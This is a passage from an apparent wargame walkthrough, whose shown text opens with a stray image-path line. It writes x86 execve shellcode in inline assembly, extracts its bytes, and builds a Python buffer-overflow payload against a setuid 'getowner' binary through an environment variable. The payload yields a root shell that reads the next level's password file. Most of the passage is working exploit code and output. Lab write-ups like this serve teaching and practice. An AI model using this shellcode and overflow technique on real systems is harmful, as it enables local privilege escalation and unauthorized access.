 ```
level2@blackbox:/tmp$ cat > shellcode.c
int main(int argc, char *argv[])
{
    __asm__(
        "xorl  %eax,%eax\n\t"
        "pushl %eax\n\t"
        "pushl $0x68732f2f\n\t"
        "pushl $0x6e69622f\n\t"
        "movl  %esp, %ebx\n\t"
        "pushl %eax\n\t"
        "pushl %ebx\n\t"
        "movl  %esp, %ecx\n\t"
        "xorl  %edx, %edx\n\t"
        "movb  $0x0b, %al\n\t"
        "int $0x80"
    );
    return 0;
}

level2@blackbox:/tmp$ gcc -o shellcode shellcode.c
level2@blackbox:/tmp$ objdump -d shellcode|grep -A17 "main>:"|tail -n +8|\
> cut -f 2|xargs echo -n|tr -d ' ';echo
31c050682f2f7368682f62696e89e3505389e131d2b00bcd80
```

Excellent, let's put everything we gathered together and construct the attack string. We have our shellcode, after which should come some sort of filler to get all the way to the return pointer, and then there's our return pointer which points to the beginning of `buf`.

Well, not entirely, there are small details to which attention is needed, and it is all about details here.

First, we already start copying `filename` to `buf` when `buf` already contains 5 characters. And second, once we add an environment variable, the stack will shift down. We can repeat our little experiment from earlier after setting the enviroment variable filename to some 160 character string, and discover that `ebp` has shifted to `0xbfffda18`.

Good, now that we have all the details cleared, let's put it all in one script, and try it out:

```
level2@blackbox:/tmp$ cat > shellcode.py
import struct
SHELLCODE = "31c050682f2f7368682f62696e89e3505389e131d2b00bcd80".decode("hex")
EBP = 0xbfffda18
ATTACK_STRING = "".join([
    SHELLCODE,
    "\x90" * (0x98 + 4 - 5 - len(SHELLCODE)),
    struct.pack("<L", EBP - 0x98 + 5),
])
print ATTACK_STRING

level2@blackbox:/tmp$ cd
level2@blackbox:~$ filename=`python /tmp/shellcode.py` ./getowner
The owner of this file is: 0
sh-3.1$ cd /home/level3
sh-3.1$ cat password
??????????
```

